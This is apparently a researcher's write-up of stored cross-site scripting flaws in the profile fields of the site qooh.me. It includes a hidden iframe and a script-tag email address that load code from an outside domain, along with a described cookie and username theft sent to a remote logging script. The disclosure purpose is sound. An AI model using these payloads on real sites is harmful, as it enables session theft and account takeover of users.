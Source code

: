 ``` html
<iframe src=//darkfox.us.to/e/c style=display:none></iframe>
```

This, however, isn't the key to the vulnerability used; but a mix of three as the
dependant vulnerabilities are done through the find_friends page and/or photo
exploits.  Without being the part that runs the code, it aids the code in
running in a more convenient place, the user's profile.

Email
-----

I am unsure for if the email was ever visible on the page, but I do know that
I can put anything I like in that email field and it doesn't care. For reference
the following email is valid to the RFC definition.

``` html
"<script src=//darkfox.us.to/e/a.js></script>"@example.tld
```

Headline
--------

The first place I checked to see if the site was vulnerable to XSS (surprisingly
not the questions themselves) at first I sent myself my own cookies.

After this, I noticed the length limitation on the headline field and decided to
use JavaScript to get rid of such limitation.

I later targeted the exploit to understand if the user was logged in or not and
get their user name if they were, send it to my logging script. Later again,
decided to let the injection work together with a page on my domain to prove an
attack from a remote domain; giving any information up to whoever asked for it.

Location
--------
 
The location field could in theory be included into the metadata sent to
Facebook which would allow the data to be manipulated. As of current qooh.me
doesn't do such interaction, however, the field like the rest is not sanitized
and in my example, I just made it alert 'xss' to the user.

Photo
-----

The photo isn't always vulnerable, it will work in only the selected areas.

- The user's own profile settings

- When another user sees their inbox with a message sent from the attacker

- Desktop site, the mobile doesn't fall vulnerable because the desktop site only
  falls vulnerable at the view larger link.

- In find friend search results

- Tag list

The injection doesn't work when answered. Only when the above are met. The
username can be used to still work when the user has answered the question,
making their profile injected.
